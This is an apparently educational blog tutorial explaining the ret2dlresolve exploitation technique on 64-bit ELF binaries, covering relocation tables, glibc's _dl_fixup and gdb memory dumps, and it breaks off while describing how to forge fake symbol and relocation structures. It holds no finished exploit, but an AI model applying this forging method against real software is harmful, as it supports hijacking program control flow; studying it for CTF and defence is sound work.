





# [Technique] ret2dlresolve - 64 bit

This is a completely new technique which I have just learnt. Therefore, I write this to help everyone who read it can understand as easy as possible. I will describe some command as formula to make it easier for understanding. Also in this blog, I will use [gdb-gef](https://github.com/hugsy/gef) to demonstrate.

Reference Source:

1. https://syst3mfailure.io/ret2dl_resolve (English)

2. https://www.lazenca.net/display/TEC/01.Return-to-dl-resolve+-+x86 (Korean)

3. https://rk700.github.io/2015/08/09/return-to-dl-resolve/ (Chinese)

4. https://chung96vn.wordpress.com/2018/12/28/ret2dlresolve-technique/ (Vietnamese)

5. [Source code](https://code.woboq.org/)

# Background Knowledge

There are 3 important section: **JMPREL** (.rela.plt), **DYNSYM** and **STRTAB**. We can get address of them as following:

```
$ readelf -d dataeater | egrep "STRTAB|SYMTAB|JMPREL"

  Tag                Type              Name/Value
0x0000000000000005 (STRTAB)             0x400380
0x0000000000000006 (SYMTAB)             0x4002c0
0x0000000000000017 (JMPREL)             0x400498
```

### JMPREL

We can get the content of JMPREL (.rel.plt) as follows:

```
$ readelf -r dataeater

Relocation section '.rela.dyn' at offset 0x450 contains 3 entries:
   Offset         Info           Type           Sym. Value    Sym. Name + Addend
000000600ff0  000300000006 R_X86_64_GLOB_DAT  0000000000000000 __libc_start_main@GLIBC_2.2.5 + 0
000000600ff8  000500000006 R_X86_64_GLOB_DAT  0000000000000000 __gmon_start__ + 0
000000601060  000700000005 R_X86_64_COPY      0000000000601060 stdin@GLIBC_2.2.5 + 0

Relocation section '.rela.plt' at offset 0x498 contains 4 entries:
   Offset         Info           Type           Sym. Value    Sym. Name + Addend
 (r_offset)     (r_info)
000000601018  000100000007 R_X86_64_JUMP_SLOT 0000000000000000 __stack_chk_fail@GLIBC_2.4 + 0
000000601020  000200000007 R_X86_64_JUMP_SLOT 0000000000000000 memset@GLIBC_2.2.5 + 0
000000601028  000400000007 R_X86_64_JUMP_SLOT 0000000000000000 fgets@GLIBC_2.2.5 + 0
000000601030  000600000007 R_X86_64_JUMP_SLOT 0000000000000000 __isoc99_scanf@GLIBC_2.7 + 0
```

As you can see, there is 2 section:

- `.rela.dyn` is used for variable relocation

- `.rela.plt` is used for function relocation

We will mainly focus on the second section `.rela.plt`. As you can see there are 4 entries in it and the size of each one is 24 (3 * 0x8). The types of these entries are `Elf64_Rela`, which is defined as follow ([source](https://code.woboq.org/userspace/glibc/elf/elf.h.html)):

```
typedef uint64_t Elf64_Addr;    // 8 bytes
typedef uint64_t Elf64_Xword;   // 8 bytes
typedef int64_t  Elf64_Sxword;  // 8 bytes

typedef struct elf64_rela {
    Elf64_Addr r_offset;      /* Location at which to apply the action (8 bytes) */
    Elf64_Xword r_info;       /* index and type of relocation (8 bytes) */
    Elf64_Sxword r_addend;    /* Constant addend used to compute value (8 bytes) */
} Elf64_Rela;
```

Now you know why the size of per entry is 24 bytes (3 * 0x8). And remember, **Offset** and **Info** when executing command `readelf -r dataeater` is equal to **r_offset** and **r_info** of `Elf64_Rela` respectively. From here, we will call **r_offset** and **r_info** instead of **Offset** and **Info**.

Now let's switch to gdb to see how those address are placed. The fomular to show address in GDB is:

> gef➤  x/3xg (JMPREL) + (reloc_arg) * 24

```
gef➤  x/3xg 0x400498 + 0 * 24
0x400498:    0x0000000000601018    0x0000000100000007
0x4004a8:    0x0000000000000000
```

The first address (0x0000000000601018) is r_offset, which is the GOT of `__stack_chk_fail@GLIBC_2.4` as predicted:

```
gef➤  x/2i 0x0000000000601018
   0x601018 <__stack_chk_fail@got.plt>:   es add    eax,0x40
   0x60101e <__stack_chk_fail@got.plt+6>:    add    BYTE PTR [rax],al
```

The second address (0x0000000100000007) is r_info, which saves its type and symbol number (which will be used to calculate SYMTAB address). The source code to get type and symbol number is defined as follows ([source](https://code.woboq.org/userspace/glibc/elf/elf.h.html):

```
# define R_X86_64_JUMP_SLOT     7
# define ELF64_R_SYM(i)         ((i) >> 32) 
# define ELF64_R_TYPE(i)        ((i) & 0xffffffff)
``` 

To make it easier, the python formular to get type and symbol number is :

> symbol_number = r_info >> 32</br>
> type = r_info & 0xffffffff

So with r_info above (0x0000000100000007), type and symbol address can be calculated like this:

```
symbol_number  =  0x0000000100000007 >> 32         =  1
type           =  0x0000000100000007 & 0xffffffff  =  7  =  R_X86_64_JUMP_SLOT
```

That's all for JMPREL. Remembering the symbol_number and let's move on SYMTAB!

### SYMTAB (Symbol Table)

The structure of symbol `Elf64_Sym` is defined in source code as following ([source](https://code.woboq.org/userspace/glibc/elf/elf.h.html)):

```
typedef uint16_t Elf64_Half;    // 2 bytes
typedef uint32_t Elf64_Word;    // 4 bytes
typedef uint64_t Elf64_Addr;    // 8 bytes
typedef uint64_t Elf64_Xword;   // 8 bytes

typedef struct elf64_sym {
    Elf64_Word st_name;       /* Symbol name, index in string table (4 bytes)*/
    unsigned char st_info;    /* Type and binding attributes (1 bytes) */
    unsigned char st_other;   /* No defined meaning, 0 (1 bytes) */
    Elf64_Half st_shndx;      /* Associated section index (2 bytes) */
    Elf64_Addr st_value;      /* Value of the symbol (8 bytes) */
    Elf64_Xword st_size;      /* Associated symbol size (8 bytes) */
} Elf64_Sym;
```

The size for each struct `Elf64_Sym` is also 24 bytes (3 * 0x8). Now let's go to GDB and use `symbol_number` we've just calculate above to know how SYMTAB address are placed. The formular for this is:

> gef➤  x/3xg (SYMTAB) + (symbol_number) * 24

```
gef➤  x/3xg 0x4002c0 + 1 * 24
0x4002d8:    0x000000120000001a    0x0000000000000000
0x4002e8:    0x0000000000000000
```

The first 8-byte address contains `st_name` (0x0000001a), `st_info` (0x12), `st_other` (0x00) and `st_shndx` (0x0000). The next 8-byte address is `st_value` and the last 8-byte address is `st_size`. From here, we just need to focus on `st_name`. Remember it and we'll move on STRTAB!

### STRTAB (String Table)

This is where symbolic names are placed. We can get corresponding name with the `st_name` above by using the following formula:

> gef➤  x/s (STRTAB) + (st_name)

```
gef➤  x/s 0x400380 + 0x0000001a
0x40039a:    "__stack_chk_fail"
```
### Summary formula (GDB)

Get JMPREL:

> gef➤  x/3xg (JMPREL) + (reloc_arg) * 24

> symbol_number = r_info >> 32</br>
> type = r_info & 0xffffffff

Get SYMTAB:

> gef➤  x/3xg (SYMTAB) + (symbol_number) * 24

Get STRTAB:
> gef➤  x/s (STRTAB) + (st_name)

And that's all for background knowledge. Let's take a nap, drink a coffee and then continue to digest more things.

# Analysis

Now we will take a deeper look on how a 64-bit @plt function work. Let's take the example of `memset@plt`, other @plt is the same. We can get the @plt by using gdb and then view its assembly code (also because `_dl_runtime_resolve_xsavec` is written in c and assembly so I think using gdb is the best option):

```
gef➤  # 0x400530 <memset@plt>
gef➤  x/3i 0x400530
   0x400530 <memset@plt>:       jmp    QWORD PTR [rip+0x200aea]        # 0x601020 <memset@got.plt>
   0x400536 <memset@plt+6>:     push   0x1                             # reloc_arg
   0x40053b <memset@plt+11>:    jmp    0x400510                        # dlresolver

gef➤  #x/2i (dlresolver)
gef➤  x/2i 0x400510
   0x400510:    push   QWORD PTR [rip+0x200af2]        # 0x601008 (pointer of link_map)
   0x400516:    jmp    QWORD PTR [rip+0x200af4]        # 0x601010 (pointer of _dl_runtime_resolve_xsavec)
```

So it pushes `reloc_arg` and `link_map` to stack, then call `_dl_runtime_resolve_xsavec` do get the correspond function. Let's see more about `_dl_runtime_resolve_xsavec` (you can type `disas _dl_runtime_resolve_xsavec` but this name is dependent on the libc so just use address to make sure we can disassembly it):

```
gef➤  x/xg 0x601010
   0x601010:   0x00007ffff7fe8610        # _dl_runtime_resolve_xsavec

gef➤  disas 0x00007ffff7fe8610
=> 0x7ffff7fe8610 <+0>:     push   rbx
   0x7ffff7fe8611 <+1>:     mov    rbx,rsp
   0x7ffff7fe8614 <+4>:     and    rsp,0xffffffffffffffc0
   0x7ffff7fe8618 <+8>:     sub    rsp,QWORD PTR [rip+0x14089]
   0x7ffff7fe861f <+15>:    mov    QWORD PTR [rsp],rax
   0x7ffff7fe8623 <+19>:    mov    QWORD PTR [rsp+0x8],rcx
   0x7ffff7fe8628 <+24>:    mov    QWORD PTR [rsp+0x10],rdx
   0x7ffff7fe862d <+29>:    mov    QWORD PTR [rsp+0x18],rsi
   0x7ffff7fe8632 <+34>:    mov    QWORD PTR [rsp+0x20],rdi
   0x7ffff7fe8637 <+39>:    mov    QWORD PTR [rsp+0x28],r8
   0x7ffff7fe863c <+44>:    mov    QWORD PTR [rsp+0x30],r9
   0x7ffff7fe8641 <+49>:    mov    eax,0xee
   0x7ffff7fe8646 <+54>:    xor    edx,edx
   0x7ffff7fe8648 <+56>:    mov    QWORD PTR [rsp+0x250],rdx
   0x7ffff7fe8650 <+64>:    mov    QWORD PTR [rsp+0x258],rdx
   0x7ffff7fe8658 <+72>:    mov    QWORD PTR [rsp+0x260],rdx
   0x7ffff7fe8660 <+80>:    mov    QWORD PTR [rsp+0x268],rdx
   0x7ffff7fe8668 <+88>:    mov    QWORD PTR [rsp+0x270],rdx
   0x7ffff7fe8670 <+96>:    mov    QWORD PTR [rsp+0x278],rdx
   0x7ffff7fe8678 <+104>:   xsavec [rsp+0x40]

   0x7ffff7fe867d <+109>:   mov    rsi,QWORD PTR [rbx+0x10]
   0x7ffff7fe8681 <+113>:   mov    rdi,QWORD PTR [rbx+0x8]
   0x7ffff7fe8685 <+117>:   call   0x7ffff7fe1550 <_dl_fixup>
   
   0x7ffff7fe868a <+122>:   mov    r11,rax
   0x7ffff7fe868d <+125>:   mov    eax,0xee
   0x7ffff7fe8692 <+130>:   xor    edx,edx
   0x7ffff7fe8694 <+132>:   xrstor [rsp+0x40]
   0x7ffff7fe8699 <+137>:   mov    r9,QWORD PTR [rsp+0x30]
   0x7ffff7fe869e <+142>:   mov    r8,QWORD PTR [rsp+0x28]
   0x7ffff7fe86a3 <+147>:   mov    rdi,QWORD PTR [rsp+0x20]
   0x7ffff7fe86a8 <+152>:   mov    rsi,QWORD PTR [rsp+0x18]
   0x7ffff7fe86ad <+157>:   mov    rdx,QWORD PTR [rsp+0x10]
   0x7ffff7fe86b2 <+162>:   mov    rcx,QWORD PTR [rsp+0x8]
   0x7ffff7fe86b7 <+167>:   mov    rax,QWORD PTR [rsp]
   0x7ffff7fe86bb <+171>:   mov    rsp,rbx
   0x7ffff7fe86be <+174>:   mov    rbx,QWORD PTR [rsp]
   0x7ffff7fe86c2 <+178>:   add    rsp,0x18
   0x7ffff7fe86c6 <+182>:   bnd jmp r11
```

Function `_dl_runtime_resolve_xsavec` just simply saves all register, then pushes `link_map` to rdi, `reloc_arg` to rsi and calls `_dl_fixup`, finally it takes all register back. So that from now, we will mainly focus on `_dl_fixup` which acts as `_dl_fixup(link_map, reloc_arg)`. Luckily, we can get the [source](https://code.woboq.org/userspace/glibc/elf/dl-runtime.c.html#59) code of `_dl_fixup` to analize:

```
1  |_dl_fixup (
2  |# ifdef ELF_MACHINE_RUNTIME_FIXUP_ARGS
3  |            ELF_MACHINE_RUNTIME_FIXUP_ARGS,
4  |# endif
5  |            struct link_map *l, ElfW(Word) reloc_arg)
6  |{
7  |    const ElfW(Sym) *const symtab = (const void *) D_PTR (l, l_info[DT_SYMTAB]);
8  |    const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);
9  |    
10 |    const PLTREL *const reloc = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);
11 |    const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
12 |    const ElfW(Sym) *refsym = sym;
13 |    void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
14 |    lookup_t result;
15 |    DL_FIXUP_VALUE_TYPE value;
16 |    
17 |    /* Sanity check that we're really looking at a PLT relocation.  */
18 |       assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);
19 |    
20 |    /* Look up the target symbol.  If the normal lookup rules are not
21 |       used don't look in the global scope.  */
22 |    if (__builtin_expect (ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0)
23 |    {
24 |        const struct r_found_version *version = NULL;
25 |        
26 |        if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL)
27 |        {
28 |            const ElfW(Half) *vernum = (const void *) D_PTR (l, l_info[VERSYMIDX (DT_VERSYM)]);
29 |            ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
30 |            version = &l->l_versions[ndx];
31 |            if (version->hash == 0)
32 |                version = NULL;
33 |        }
34 |
35 |        /* We need to keep the scope around so do some locking.  This is
36 |           not necessary for objects which cannot be unloaded or when
37 |           we are not using any threads (yet).  */
38 |        int flags = DL_LOOKUP_ADD_DEPENDENCY;
39 |        if (!RTLD_SINGLE_THREAD_P)
40 |        {
41 |            THREAD_GSCOPE_SET_FLAG ();
42 |            flags |= DL_LOOKUP_GSCOPE_LOCK;
43 |        }
44 |
45 |#ifdef RTLD_ENABLE_FOREIGN_CALL
46 |        RTLD_ENABLE_FOREIGN_CALL;
47 |#endif
48 |
49 |        result = _dl_lookup_symbol_x (strtab + sym->st_name, 
50 |                                      l, 
51 |                                      &sym, 
52 |                                      l->l_scope, 
53 |                                      version, 
54 |                                      ELF_RTYPE_CLASS_PLT, 
55 |                                      flags, 
56 |                                      NULL);
57 |
58 |        /* We are done with the global scope.  */
59 |        if (!RTLD_SINGLE_THREAD_P)
60 |            THREAD_GSCOPE_RESET_FLAG ();
61 |#ifdef RTLD_FINALIZE_FOREIGN_CALL
62 |        RTLD_FINALIZE_FOREIGN_CALL;
63 |#endif
64 |
65 |        /* Currently result contains the base load address (or link map)
66 |           of the object that defines sym.  Now add in the symbol
67 |           offset.  */
68 |        value = DL_FIXUP_MAKE_VALUE (result, SYMBOL_ADDRESS (result, sym, false));
69 |    }
70 |    else
71 |    {
72 |        /* We already found the symbol.  The module (and therefore its load
73 |           address) is also known.  */
74 |        value = DL_FIXUP_MAKE_VALUE (l, SYMBOL_ADDRESS (l, sym, true));
75 |        result = l;
76 |    }
77 |    
78 |    /* And now perhaps the relocation addend.  */
79 |    value = elf_machine_plt_value (l, reloc, value);
80 |    
81 |    if (sym != NULL && __builtin_expect (ELFW(ST_TYPE) (sym->st_info) == STT_GNU_IFUNC, 0))
82 |        value = elf_ifunc_invoke (DL_FIXUP_VALUE_ADDR (value));
83 |    
84 |    /* Finally, fix up the plt itself.  */
85 |    if (__glibc_unlikely (GLRO(dl_bind_not)))
86 |        return value;
87 |    
88 |    return elf_machine_fixup_plt (l, result, refsym, sym, reloc, rel_addr, value);
89 |}
```

Now we will analize these things together and I will use split line to make it more clear. We can see at line 5, function accepts two arguments:

```
5  |    struct link_map *l, ElfW(Word) reloc_arg)
```

As I said above, those arguments are pushed on stack before `_dl_fixup` is called. `link_map` is an important structure. `reloc_arg` will be used to identify the corresponding Elf64_Rel entry in the JMPREL section. 

---

At line 7 and 8, `symtab` and `strtab` will get from `link_map` the address of **SYMTAB** and **STRTAB**:

```
7  |    const ElfW(Sym) *const symtab = (const void *) D_PTR (l, l_info[DT_SYMTAB]);
8  |    const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);
```

`l_info` is located at `(address of link_map) + 0x40`. [DT_SYMTAB](https://code.woboq.org/userspace/glibc/elf/elf.h.html#854) and [DT_STRTAB](https://code.woboq.org/userspace/glibc/elf/elf.h.html#853) is defined as follows:

```
# define DT_STRTAB 5
# define DT_SYMTAB 6
# define DT_JMPREL 23
```

Then it is passed to [D_PTR](https://code.woboq.org/userspace/glibc/sysdeps/generic/ldsodefs.h.html#63) which is defined as follows:

```
# define D_PTR(map, i) (map)->i->d_un.d_ptr
```

It is used to find the d_ptr value in the corresponding Elf64_Dyn structure, which defined as follows:

```
typedef struct{

  Elf64_Sxword    d_tag;    /* Dynamic entry type */
  union
    {
      Elf64_Xword   d_val;  /* Integer value */
      Elf64_Addr    d_ptr;  /* Address value */
    } d_un;

} Elf64_Dyn;
```

When look at `link_map` in GDB, we can get the corresponding variable:

```
gef➤  # 0x400530 <memset@plt>
gef➤  x/3i 0x400530
   0x400530 <memset@plt>:       jmp    QWORD PTR [rip+0x200aea]        # 0x601020 <memset@got.plt>
   0x400536 <memset@plt+6>:     push   0x1                             # reloc_arg
   0x40053b <memset@plt+11>:    jmp    0x400510                        # dlresolver

gef➤  # x/2i (dlresolver)
gef➤  x/2i 0x400510
   0x400510:    push   QWORD PTR [rip+0x200af2]        # 0x601008 (pointer of link_map)
   0x400516:    jmp    QWORD PTR [rip+0x200af4]        # 0x601010 (pointer of _dl_runtime_resolve_xsavec)

gef➤  # x/xg (pointer of link_map)
gef➤  x/xg 0x601008
0x601008:   0x00007ffff7ffe180

gef➤  # x/32xg (link_map)
gef➤  x/32xg 0x00007ffff7ffe180
0x7ffff7ffe180:    0x0000000000000000    0x00007ffff7ffe720    <-- l_addr              l_name
0x7ffff7ffe190:    0x0000000000600e20    0x00007ffff7ffe730    <-- l_ld                l_next
0x7ffff7ffe1a0:    0x0000000000000000    0x00007ffff7ffe180    <-- l_prev              l_real
0x7ffff7ffe1b0:    0x0000000000000000    0x00007ffff7ffe708    <-- l_ns                l_libname
0x7ffff7ffe1c0:    0x0000000000000000    0x0000000000600e20    <-- l_info[0]           l_info[1]
0x7ffff7ffe1d0:    0x0000000000600f00    0x0000000000600ef0    <-- l_info[2]           l_info[3]
0x7ffff7ffe1e0:    0x0000000000000000    0x0000000000600ea0    <-- l_info[4]           l_info[DT_STRTAB]
0x7ffff7ffe1f0:    0x0000000000600eb0    0x0000000000600f30    <-- l_info[DT_SYMTAB]   l_info[7]
0x7ffff7ffe200:    0x0000000000600f40    0x0000000000600f50
0x7ffff7ffe210:    0x0000000000600ec0    0x0000000000600ed0
0x7ffff7ffe220:    0x0000000000600e30    0x0000000000600e40
0x7ffff7ffe230:    0x0000000000000000    0x0000000000000000
0x7ffff7ffe240:    0x0000000000000000    0x0000000000000000
0x7ffff7ffe250:    0x0000000000000000    0x0000000000000000
0x7ffff7ffe260:    0x0000000000600f10    0x0000000000600ee0
0x7ffff7ffe270:    0x0000000000000000    0x0000000000600f20    <-- l_info[22]          l_info[DT_JMPREL]
```

When we examine `l_info[DT_STRTAB]`, we get the following result:

```
gef➤  # x/2xg l_info[DT_STRTAB]
gef➤  x/2xg 0x0000000000600ea0
0x600ea0:    0x0000000000000005    0x0000000000400380
```

And we get the STRTAB value (0x400380). I don't know why those variable in `Elf64_Dyn` are 64 bit but just with 2 first address, we can get STRTAB (I thought it have to be 3 address). Anyway, let's move on.

---

Line 10 and 11, we will use Background Knowledge formula to get addresses. At line 10, the value of JMPREL will be added with reloc_offset which is defined as

```
reloc_offset = reloc_arg * sizeof(Elf64_Rela)
             = reloc_arg * 24
```

and saves it to reloc:

```
10 |    const PLTREL *const reloc = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);
```

In GDB, we can get that clearly with reloc_arg = 1 (memset@plt above):

```
gef➤  # x/2xg l_info[DT_JMPREL]
gef➤  x/2xg 0x0000000000600f20
0x600f20:    0x0000000000000017    0x0000000000400498    # JMPREL = 0x400498

gef➤  # x/3xg (JMPREL) + (reloc_arg) * 24
gef➤  x/3xg 0x0000000000400498 + 1 * 24
0x4004b0:    0x0000000000601020    0x0000000200000007    # r_offset and r_info of memset
0x4004c0:    0x0000000000000000
```

And at line 11, it gets the corresponding `Elf64_Sym` and saves it to `*sym` with `symbol_number = r_info >> 32`:

```
11 |    const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
```

Continue in GDB, we can get the Elf64_Sym structure of memset():

```
gef➤  # p/d (r_info) >> 32
gef➤  p/d 0x0000000200000007 >> 32
$1 = 2

gef➤  # x/3xg (SYMTAB) + (symbol_number) * 24
gef➤  x/3xg 0x4002c0 + 2 * 24
0x4002f0:	0x0000001200000037	0x0000000000000000
0x400300:	0x0000000000000000
```

And as expected:

```
gef➤  # x/s (STRTAB) + (st_name)
gef➤  x/s 0x400380 + 0x37
0x4003b7:	"memset"
```

---

At line 13 we have:

```
13 |    void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
```

`rel_addr` is a pointer to the location where the resolved libc address will be stored. It can be **any writable address** so when we fake `r_offset`, just make it point to our controlled memory and it will write the resolved address there so we can leak that easily.

---

At line 18, there is an important check:

```
18 |    assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);
```

This check in python will be like this `assert(r_info & 0xffffffff, 7)`

---

At line 22, there is also another check:

```
22 |    if (__builtin_expect (ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0)
```

This check in python will be like this: `assert(sym->st_other & 0x3, 0)`. If the check is **not satisfied**, the symbol is considered already resolved, otherwise the code inside the “if” statement is executed:

- If `assert(sym->st_other & 0x3, 0)` is True:

It will start with a symbol versioning check at line 26:

```
26 |    if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL)
```

This check in GDB will look like this:

```
gef➤  x/2i _dl_fixup+97
   # [r10+0x1d0] equal l->l_info[VERSYMIDX (DT_VERSYM)]
   0x7ffff7fe15b1 <_dl_fixup+97>:    mov    r8,QWORD PTR [r10+0x1d0]    
   0x7ffff7fe15b8 <_dl_fixup+104>:   test   r8,r8

gef➤  x/xg $r10+0x1d0
0x7ffff7ffe350:	0x0000000000600f80    # l->l_info[VERSYMIDX (DT_VERSYM)]
```

Where r10 contains `link_map` address in `_dl_fixup`. You can see that this check is satisfied, and it usually is. The only way to make it false is to overwrite it to null. And when it's true, the code inside "if" is executed:

```
28 |    const ElfW(Half) *vernum = (const void *) D_PTR (l, l_info[VERSYMIDX (DT_VERSYM)]);
29 |    ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
30 |    version = &l->l_versions[ndx];
31 |    if (version->hash == 0)
32 |        version = NULL;
```

I haven't figure out how can we exploit this code so I just quote :3

> It obtains the VERSYM address using the usual l_info and D_PTR macro, then calculates “ndx” using `reloc->r_info >> 32` as index in the VERSYM section. “ndx” is subsequently used as index in [l_versions](https://code.woboq.org/userspace/glibc/include/link.h.html#link_map::l_versions) (that is located at &link_map + 0x2e8 and is an array with version names), to obtain the version name.

Next, at line 49 to 56 we have:

```
49 |    result = _dl_lookup_symbol_x (strtab + sym->st_name, 
50 |        l, 
51 |        &sym, 
52 |        l->l_scope, 
53 |        version, 
54 |        ELF_RTYPE_CLASS_PLT, 
55 |        flags, 
56 |        NULL);
```

The function `_dl_lookup_symbol_x` will find for the definition of string name corresponding to `strtab + sym->st_name` and then return `libc base address` (or `link_map`) to `result` variable. In our case, the `libc base address` will be assigned to `result` variable.

At line 68, with the `libc base address` in `result` variable, it finds the correspond offset of a libc function, relocates it and stores the libc function address to `value` variable:

```
68 |    value = DL_FIXUP_MAKE_VALUE (result, SYMBOL_ADDRESS (result, sym, false));
```

The SYMBOL_ADDRESS is defined [here](https://code.woboq.org/userspace/glibc/sysdeps/generic/ldsodefs.h.html#73). In a clearly form, the SYMBOL_ADDRESS will look like this:

```
#define __glibc_unlikely(cond)                 __builtin_expect ((cond), 0)
#define LOOKUP_VALUE_ADDRESS(map, set)         ((set) || (map) ? (map)->l_addr : 0)

SYMBOL_ADDRESS(map, ref, map_set)
{
    if (ref==NULL)
        return 0;
    else:
        if __glibc_unlikely ( (ref)->st_shndx == SHN_ABS )
            return 0 + (ref)->st_value;
        else
            // The aim is to return at here
            return LOOKUP_VALUE_ADDRESS (map, map_set) + (ref)->st_value;
}
```

So if everything goes well, we will get this for line 68:

```
value = DL_FIXUP_MAKE_VALUE (result, (map)->l_addr + (ref)->st_value);
```

That's the code if the assert of `st_other` is correct. We will look to the code when it's wrong right now.

- If `assert(sym->st_other & 0x3, 0)` is False:

If the assert() is wrong, that means we've already found the symbol, and the `libc base address` (or `link_map`). So that we just need to relocates the function address:

```
74 |    value = DL_FIXUP_MAKE_VALUE (l, SYMBOL_ADDRESS (l, sym, true));
```

As the SYMBOL_ADDRESS was show above so I just move on.

---

After it relocated, the `value` variable now contains the address of libc function. At line 88, it will write the resolved address to the location pointed by r_offset of JMPREL:

```
88 |    return elf_machine_fixup_plt (l, result, refsym, sym, reloc, rel_addr, value);
```

That's the hardest part for us. Now, we will just focus on how to exploit using `ret2dlresolve` technique.

# How to exploit

We know that `_dl_fixup` function will take 2 arguments are `link_map` and `reloc_arg` to resolve the address. Our plan is to fake `link_map` or `reloc_arg` or both of them, in order to fake the string name of a function so when it resolves, it will find the function correspond to the string name.

### Fake `reloc_arg`

This is the popular way to exploit for this technique. With the background knowledge, we know that `reloc_arg` will be pushed on stack before it starts to resolve. So our goal is to create fake Elf64_Sym, Elf64_Rela and STRTAB structure. After we finished, the `reloc_arg` will automatically appear to us and we will use that to fake the resolver.

First, we choose the address to put our fake Elf64_Sym, fake Elf64_Rela and fake STRTAB. 

For the address of fake Elf64_Sym, we will choose the address from which we get the `symbol_number` is an integer, not float number:

```
    <Address of Elf64_Sym> = <SYMTAB> + <symbol_number> * 24
<=> <symbol_number> = (<Address of Elf64_Sym> - <SYMTAB>)/24
```

With the address of Elf64_Sym, we now have the `symbol_number`. 

For the address of fake Elf64_Sym, we will choose the address from which we get the `reloc_arg` is an integer, not float number:

```
    <Address of Elf64_Rela> = <JMPREL> + <reloc_arg> * 24
<=> <reloc_arg> = (<Address of Elf64_Rela> - <JMPREL>)/24
```

So with the address of Elf64_Rela, we now have the fake `reloc_arg` which we will pass to the stack before we call dlresolver.

For the address of STRTAB, it will be easier because we don't need to satisfy anything. Just choose a random address and we can calculate the `st_name` variable of Elf64_Sym:

```
STRTAB_addr = 0x400000    # For example
<st_name> = <STRTAB_addr> - <STRTAB>
```

Now we have everything we need to build our fake structure. Let's kick off with the structure of Elf64_Sym. To remind you, this is the structure of Elf64_Sym in c code:

```
typedef struct elf64_sym {
    Elf64_Word st_name;       /* Symbol name, index in string table (4 bytes)*/
    unsigned char st_info;    /* Type and binding attributes (1 bytes) */
    unsigned char st_other;   /* No defined meaning, 0 (1 bytes) */
    Elf64_Half st_shndx;      /* Associated section index (2 bytes) */
    Elf64_Addr st_value;      /* Value of the symbol (8 bytes) */
    Elf64_Xword st_size;      /* Associated symbol size (8 bytes) */
} Elf64_Sym;
```

For this struct, we will want to fake the st_name, the other variable we will leave it the same as other function has. We can get all the variable by using the command on the background knowledge:

```
